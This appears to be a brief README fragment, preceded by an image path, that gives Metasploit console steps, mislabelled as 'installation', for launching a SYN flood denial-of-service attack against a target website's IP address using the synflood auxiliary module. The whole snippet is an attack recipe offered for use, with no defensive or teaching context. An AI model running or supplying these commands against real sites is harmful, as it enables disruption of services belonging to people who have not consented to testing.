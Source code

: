 ## msfconsole

### Step 1 ( installation )

```shell

msfconsole

> search syn flood

> use auxiliary/dos/tcp/synflood

> set RHOSTS *ip_address_target_website

> exploit

```
